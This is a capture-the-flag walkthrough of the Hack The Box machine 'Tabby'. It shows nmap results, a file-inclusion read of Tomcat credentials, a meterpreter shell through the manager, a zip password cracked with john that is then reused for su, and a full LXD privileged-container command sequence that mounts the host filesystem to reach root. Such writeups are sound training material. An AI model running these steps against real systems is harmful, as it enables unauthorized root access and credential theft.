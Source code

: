 ```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: Tabby
- Description: Tabby is a easy difficulty Linux machine. Enumeration of the website reveals a second website that is hosted on the same server under a different vhost. This website is vulnerable to Local File Inclusion. Knowledge of the OS version is used to identify the `tomcat-users.xml` file location. This file yields credentials for a Tomcat user that is authorized to use the `/manager/text` interface. This is leveraged to deploy of a war file and upload a webshell, which in turn is used to get a reverse shell. Enumeration of the filesystem reveals a password protected zip file, which can be downloaded and cracked locally. The cracked password can be used to login to the remote machine as a low privileged user. However this user is a member of the LXD group, which allows privilege escalation by creating a privileged container, into which the host&amp;amp;#039;s filesystem is mounted. Eventually, access to the remote machine is gained as `root` using SSH.
- Difficulty: Easy

## Initial Access

Nmap:
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Mega Hosting
|_http-favicon: Unknown favicon MD5: 338ABBB5EA8D80B9869555ECA253D49D
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I start by checking out the 80 and 8080 ports since ssh is practically useless with creds or keys. 

I check port 80 first and see that its some megahosting website. It even has a vhost megahosting.htb domain that I needed to add to my /etc/hosts

From there I see there is a news.php file that has the file parameter that has an LFI.

I stop there and check out port 8080 and see its a tomcat instance. I need to login to access the administrator panel. I'll try to read the config file from the LFI:


![](assets/images/2024-02-03-HTB-Tabby-Writeup-image-1.png)

After some trial and error and alot of research I landed on this file:

**`/usr/share/tomcat9/etc/tomcat-users.xml`**

![](assets/images/2024-02-03-HTB-Tabby-Writeup-image-2.png)

Now I am able to login to the manager console, I'll use metasploit to get a shell now

```bash
meterpreter > shell
Process 1 created.
Channel 1 created.
whoami
tomcat
```

## Privilege Escalation

I find a zip file back up in the var/www/html/files directory. There I download it and realize its password protected. I then pass it to john and crack it:

```bash
meterpreter > ls
Listing: /tmp
=============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  8716  fil   2024-02-03 18:49:45 -0500  16162020_backup.zip
040776/rwxrwxrw-  4096  dir   2024-02-03 18:48:37 -0500  hsperfdata_tomcat
040776/rwxrwxrw-  4096  dir   2024-02-03 18:49:57 -0500  var
```

```bash
HTB john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (16162020_backup.zip)     
1g 0:00:00:00 DONE (2024-02-03 18:50) 1.408g/s 14607Kp/s 14607Kc/s 14607KC/s adornadis..adamsapple:)1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

While the zip didn't have anything, I was able to su into ash with the password:

```bash
tomcat@tabby:/tmp$ su ash
su ash
Password: admin@it
```

I see that I have the lxd group

```bash
ash@tabby:~$ id
id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

On my host:

```bash
# build a simple alpine image
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
sudo ./build-alpine -a i686
```

On Victim host

```bash
lxc image import ./alpine*.tar.gz --alias myimage # It's important doing this from YOUR HOME directory on the victim machine, or it might fail.

# before running the image, start and configure the lxd storage pool as default 
lxd init

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# interact with the container
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

```bash
ash@tabby:~$ /snap/bin/lxc exec mycontainer /bin/sh
/snap/bin/lxc exec mycontainer /bin/sh
~ # ^[[53;5Rwhoami                                                             
whoami                                                                         
root 
```
## Beyond Root